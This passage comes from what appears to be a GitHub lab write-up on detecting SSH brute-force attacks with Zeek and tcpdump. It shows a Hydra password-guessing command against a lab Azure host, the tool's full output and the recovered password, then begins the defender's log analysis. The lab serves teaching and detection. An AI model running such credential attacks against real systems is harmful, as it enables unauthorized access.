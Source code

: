 

##
### 📊 Results and Analysis After a Brute Force Attack
- Stop Zeek and tcpdump using Ctrl + C once the attack completes.

### Attacker's Perspective:

The following output shows the result of launching a brute-force attack using Hydra from the Kali VM:

  **Hydra's Output:**
  ```
  ┌──(azureuser㉿kali)-[~]
  └─$ hydra -l azureuser -P /opt/sample-passwords.txt ssh://20.185.217.167
  Hydra v9.5 © 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-21 21:59:20
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
  [DATA] attacking ssh://20.185.217.167:22/
  [22][ssh] host: 20.185.217.167   login: azureuser   password: Cyber@1234xyz
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-21 21:59:29
  ```

  To better visualize the result, here’s a screenshot of the terminal showing the exact moment the password was found:

  ![Hydra Success](images/hydra_success.png)

  - The attack was successful: **Hydra correctly identified the SSH password `Cyber@1234xyz`** for the user `azureuser` after trying several entries from the custom wordlist.

  - The success message `1 valid password found` confirms that the credentials were compromised.



### Target's Perspective:

After the attack, we analyze the logs and traffic to detect signs of brute-force behavior.

#### Detecting SSH Brute Force Using Logs and Packet Capture

#### Analyzing Zeeks's Logs:

 `ssh.log`, records all attempted connections to that service.
